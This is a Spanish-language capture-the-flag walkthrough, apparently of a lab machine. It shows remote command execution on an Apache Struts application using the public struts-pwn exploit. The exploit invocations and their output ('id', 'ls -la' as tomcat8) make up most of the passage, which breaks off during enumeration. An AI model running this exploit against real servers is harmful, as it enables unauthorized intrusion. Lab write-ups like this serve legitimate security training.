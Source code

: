 **Lo primero que vemos interesante en esta web es el archivo que nos devuelve al final de la ruta, `Welcome.action`, si indagamos un poco sobre archivos `.action` podemos ver que son archivos `Java` que están asociados a un `framework` llamado `Struts`, en resumen, los archivos `.action` no son archivos en si, sino que son parte de las URL utilizadas en aplicaciones web Java que usan frameworks somo Struts. Estas URL mapean las solicitudes a clases especificas que contienen la lógica de negocio para manejar la solicitud.**

----------------------------------------------
# EXPLOTACION DE STRUTS

Si buscamos `exploit strtus github` en Google encontramos el siguiente repositorio que vamos a utilizar para poder explotar dicha vulnerabilidad: [REPOSITORIO](https://github.com/mazen160/struts-pwn)

- Uso del exploit

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'id'
```

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'id'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

Como podemos ver tenemos ejecución remota de comandos, por lo que el siguiente paso seria  entablarnos una `reverse-shell` en nuestro sistema para poder trabajar de forma mas cómoda, pero ya os adelanto que no se puede por lo que nos toca un poco de enumeración del sistema ejecutando comandos con el script anterior.

-----------------------

# OTENCION DE TTY A TRAVES DE CREDENCIALES SSH

- Reconocimiento básico del sistema

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'ls -la'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: ls -la
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

total 24
drwxr-xr-x  5 root    root    4096 Sep 23 15:11 .
drwxr-xr-x 46 root    root    4096 Dec  3  2023 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Sep 23 15:11 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
```